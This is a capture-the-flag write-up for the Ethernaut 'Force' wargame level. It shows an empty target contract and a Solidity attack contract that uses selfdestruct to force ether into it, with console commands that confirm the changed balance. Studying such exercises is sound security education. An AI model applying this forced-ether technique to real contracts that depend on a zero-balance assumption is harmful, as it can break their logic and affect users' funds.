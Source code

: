 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel7.svg">

## Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

Challenge's message.

> Some contracts will simply not take your money ¯\_(ツ)_/¯
The goal of this level is to make the balance of the contract greater than zero.

Our aim should be send ether to target contract to solve this challenge.

## Subverting

My attack contract.

```solidity
pragma solidity ^0.8.0;

import './Force.sol';

contract Attack{

    Force force;

    constructor(address _target) {
        force = Force(_target);
    }

    function attack() external payable{
        address payable target = payable(address(force));
        selfdestruct(target);
    }
}
```

In the starting point, identify the contart address which is our target. Afterwards, send ether to target contract with ```selfdestruct()``` method. With help of selfdestruct, contracts can be deleted from the blockchain and selfdestruct **sends all remaining ether stored in the contract** to a designated address. For this reason,
a malicious contract can use **selfdestruct** to force sending Ether to any contract.

Learn target contract's address.

```shell
await instance
'0x2C5eB5feC2C02C4bAba25DfD9e9E9092967Bde51'
```
Deploy and call attack function.

<img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Force/img/deploy.png">

<img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Force/img/transaction.png">


Check instance's balance. Solved the challenge.

```shell
await getBalance(instance)
'0.00000000000000010'
```

Ethernaut's message.

>In solidity, for a contract to be able to receive ether, the fallback function must be marked payable.
However, there is no way to stop an attacker from sending ether to a contract by self destroying. Hence, it is important not to count on the invariant address(this).balance == 0 for any contract logic.

**_by wasny0ps_**
